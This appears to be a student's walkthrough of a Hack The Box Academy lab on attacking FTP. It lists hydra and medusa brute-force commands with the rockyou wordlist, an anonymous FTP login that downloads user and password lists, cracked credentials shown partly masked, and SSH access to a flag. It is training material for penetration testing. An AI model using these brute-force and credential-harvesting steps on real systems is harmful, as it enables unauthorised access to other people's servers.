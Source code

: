 ## [Attacking FTP](https://academy.hackthebox.com/module/116/section/1165)

# Attacking FTP

| Command                                                       | Description                                     |
|---------------------------------------------------------------|-------------------------------------------------|
| `ftp 192.168.2.142`                                           | Connecting to the FTP server using the ftp client. |
| `nc -v 192.168.2.142 21`                                      | Connecting to the FTP server using netcat.         |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service.                     |
| `hydra -L users.list -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP` | Brute Forcing the FTP service with Hydra. |
| `hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt ftp://$TARGET_IP` |  Brute Forcing the FTP service with Hydra  |
| `medusa -u $USERNAME -P /usr/share/wordlists/rockyou.txt -h $TARGET_IP -M ftp` |Brute Forcing with Medusa.              |


## Questions:
1. What port is the FTP service running on? 

```
sudo nmap -sV -sC $TARGET_IP -Pn
```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBoxAcademy/CPTS/Attacking-Common-Services/FTP/ftp-nmap-scan.png">

2. What username is available for the FTP server? 

```
wget -m --no-passive ftp://anonymous:anonymous@10.129.203.6 -Pn
```
or
```
ftp 10.129.203.6 -p 2121
Connected to 10.129.203.6.
220 ProFTPD Server (InlaneFTP) [10.129.203.6]
Name (10.129.203.6:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55278|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp          1959 Apr 19  2022 passwords.list
-rw-rw-r--   1 ftp      ftp            72 Apr 19  2022 users.list
226 Transfer complete
ftp> mget *
mget passwords.list [anpqy?]? y
229 Entering Extended Passive Mode (|||43085|)
150 Opening BINARY mode data connection for passwords.list (1959 bytes)
  1959        1.31 MiB/s 
226 Transfer complete
1959 bytes received in 00:00 (174.85 KiB/s)
mget users.list [anpqy?]? y
229 Entering Extended Passive Mode (|||7181|)
150 Opening BINARY mode data connection for users.list (72 bytes)
    72       30.43 KiB/s 
226 Transfer complete
72 bytes received in 00:00 (6.39 KiB/s)
ftp> 
```

```
hydra -L users.list -P passwords.list  ftp://10.129.203.6:2121 -V
```
 `
  [2121][ftp] host: 10.129.203.6   login: r****   password: 7iz***********7
`


3. Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer. 

```
ssh $username@$TARGET_IP
```

`ls`

`cat flag.txt`


## HTB{ ATT******_********C3}

# [Subscribe for getting more HTB Cubes!](https://referral.hackthebox.com/mzyGKZb)

